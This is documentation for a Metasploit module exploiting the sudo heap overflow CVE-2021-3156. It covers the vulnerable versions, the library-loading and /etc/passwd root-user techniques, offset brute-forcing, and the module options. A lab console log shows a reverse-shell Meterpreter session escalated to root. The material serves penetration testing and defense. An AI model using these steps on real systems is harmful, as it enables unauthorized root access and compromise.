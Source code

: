 ## Vulnerable Application

A heap based buffer overflow exists in the sudo command line utility that can be exploited by a local attacker
to gain elevated privileges. The vulnerability was introduced in July of 2011 and affects version 1.8.2
through 1.8.31p2 as well as 1.9.0 through 1.9.5p1 in their default configurations. Most targets use a technique
that leverages the overflow to overwrite a `service_user` struct in memory to reference an attacker
controlled library which results in it being loaded with the elevated privileges held by sudo. Other targets 
coerce an arbitrary line write to /etc/passwd, adding a new root user. This latter technique performs a 
partial overwrite of a memory address, requiring a brute force of ASLR.

### Manual Target

The service_user technique requires a number of lengths / offsets to function correctly. The manual target can be
used to specify these values if they are known. To identify the values, use the `brute.sh` script from the original
PoC repository at [blasty/CVE-2021-3156][1]. This will only work on systems with tcache support in libc (>= 2.26).

On the target system, the rough steps include:

1. Clone the repository, install necessary build tools and GNU parallel (`sudo apt-get install parallel` on Debian-based
  systems)
1. Do: `make brute`
1. Do: `./brute.sh ...` with the desired options to bruteforce, (see the [README.md][2])
1. Wait for the bruteforce to complete, hopefully finding a successful option.

    Successful results will be written to the `success.txt` file. They will look something like this:
    
    ```
    ** CVE-2021-3156 PoC by blasty <peter@haxx.in>
    
    using target: Manual ['/usr/bin/sudoedit'] (56, 57, 60, 200)
    ** pray for your rootshell.. **
    [+] bl1ng bl1ng! We got it!
    ```
    
    In this case `56, 57, 60, 200` are the required values.

1. From Metasploit
    1. Do: `set TARGET Manual` to specify the manual target
    1. Do: `set Lengths 56, 57, 60, 200` to set the explicit lengths (substitute the numbers as necessary)

## Verification Steps
Example steps in this format (is also in the PR):

1. Install the application
1. Start msfconsole
1. Do: `use exploit/linux/local/sudo_baron_samedit`
1. Set the necessary options (target, payload, etc.)
1. Do: `run`

## Options

### WritableDir

A directory where you can write files. The necessary source code will be uploaded and compiled to here, along with the
payload library.

### Lengths
*This is an advanced option.*

The lengths to set as used by the manual target. See the "Manual Target" section.

### NewUser
*This is an advanced option.*
For targets using the second technique (adding a user to /etc/passwd), this is the name of the user.
In the event of a successful exploit, the module remove that user from /etc/passwd as a cleanup measure.
If the exploit partially succeeds (that is, writes to /etc/passwd, but does not result in a shell), this 
account will need to be manually cleaned up. 

### NewPassword
*This is an advanced option.*
For targets using the second technique (adding a user to /etc/passwd), this is the new password. If left blank,
the system creates a long, random password.



## Scenarios

### Ubuntu 20.04.1 x64

```
msf6 exploit(multi/ssh/sshexec) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444
[*] 192.168.159.34:22 - Sending stager...
[*] Command Stager progress -  42.75% done (342/800 bytes)
[*] Sending stage (980808 bytes) to 192.168.159.34
[*] Meterpreter session 1 opened (192.168.159.128:4444 -> 192.168.159.34:47868) at 2021-02-11 11:55:21 -0500
[!] Timed out while waiting for command to return
[*] Command Stager progress - 100.00% done (800/800 bytes)

meterpreter > getuid
Server username: smcintyre @ ubuntu (uid=1000, gid=1000, euid=1000, egid=1000)
meterpreter > sysinfo
Computer     : 192.168.159.34
OS           : Ubuntu 20.04 (Linux 5.8.0-41-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/ssh/sshexec) > use exploit/linux/local/sudo_baron_samedit
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/local/sudo_baron_samedit) > set SESSION 1
SESSION => 1
msf6 exploit(linux/local/sudo_baron_samedit) > set LHOST 192.168.159.128
LHOST => 192.168.159.128
msf6 exploit(linux/local/sudo_baron_samedit) > set TARGET Automatic
TARGET => Automatic
msf6 exploit(linux/local/sudo_baron_samedit) > exploit

[!] SESSION may not be compatible with this module.
[*] Started reverse TCP handler on 192.168.159.128:4444
[*] Executing automatic check (disable AutoCheck to override)
[!] The service is running, but could not be validated. sudo 1.8.31 maybe a vulnerable build.
[*] Using automatically selected target: Ubuntu 20.04 x64 (sudo v1.8.31, libc v2.31)
[*] Writing '/tmp/libnss_9S9MeS/tB8M .so.2' (564 bytes) ...
[*] Sending stage (3008420 bytes) to 192.168.159.34
[*] Meterpreter session 2 opened (192.168.159.128:4444 -> 192.168.159.34:47870) at 2021-02-11 11:55:56 -0500
[+] Deleted /tmp/p60htQTDNO
[+] Deleted /tmp/libnss_9S9MeS/tB8M .so.2
[+] Deleted /tmp/libnss_9S9MeS

meterpreter > getuid
Server username: root @ ubuntu (uid=0, gid=0, euid=0, egid=0)
meterpreter > sysinfo
Computer     : 192.168.159.34
OS           : Ubuntu 20.04 (Linux 5.8.0-41-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```

[1]: https://github.com/blasty/CVE-2021-3156
[2]: https://github.com/blasty/CVE-2021-3156/blob/da68f7c1a2961595a3226b903f1fc180b8824255/README.md#bruteforce-target-finding-experimental
